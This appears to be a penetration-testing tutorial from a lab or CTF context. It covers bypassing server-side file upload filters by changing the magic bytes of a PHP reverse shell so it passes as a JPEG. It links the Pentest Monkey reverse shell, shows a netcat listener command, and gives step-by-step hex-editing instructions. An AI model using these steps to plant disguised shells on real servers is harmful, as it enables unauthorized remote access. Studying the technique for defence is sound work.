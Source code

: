 ### Files referenced within document:
1) **PHP Shell:** Pentest Monkey reverse shell [Link](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)
	 * Before running shell make sure to have netcat listener set up to connect:
		`$ nc -lvnp 1234`
1) **List of file extentions with thier magic number:** [link](https://en.wikipedia.org/wiki/List_of_file_signatures)

# Bypassing Server-Side Filtering (Magic Numbers)
Magic numbers can be used as a more accurate identifier of files. The magic number of a file is a string of hex digits, located within the first line of a file. Exploiting server-side filtering with magic numbers allows us to use magic numbers to validate file uploads by changing the first few bytes of a file we can upload a malicius .php file as a .jpg image allowing us to bypass a whitelist or a blacklist.

Referencing [list of file signatures on Wikipedia](https://en.wikipedia.org/wiki/List_of_file_signatures) we see there are several possible magic numbers of JPEG files, example: `FF D8 FF DB`

1) Check the file type of your shell: `$ file shell.php`
	* Should recieve a simular output to:
		`shell.php: PHP script, ASCII text`
		As expected, the command tells us that the filetype is PHP

2) open up the reverse shell script and add four random characters on the first line: <br>`$ nano shell.php`
	* First three lines of your file should look simular to:
		```
		AAAA
		<?php
		// php-reverse-shell - A Reverse Shell implementation in PHP`
		```
	
	* ***TIP:** Add the number of A's = to the number of hex you will change to aviod breaking the shell code.

3) Save the file and exit. Next we're going to reopen the file in `hexeditor` (which comes by default on Kali): `$ hexeditor shell.php`
	* First line should look simular to:
		`00000000  41 41 41 41  0A 3C 3F 70   68 70 0A 2F  2F 20 70 68`
	* Note the four bytes in the red box: they are all `41`, which is the hex code for a capital "A" -- exactly what we added at the top of the file previously.
	* Change this to the magic number we found earlier for JPEG files: `FF D8 FF DB`
		`00000000  FF D8 FF DB  0A 3C 3F 70   68 70 0A 2F  2F 20 70 68`
	* Now when we do `file` we can see that we have spoofed the PHP to JPEG
		```
		$ file shell.php
		shell.php: JPEG image data
		```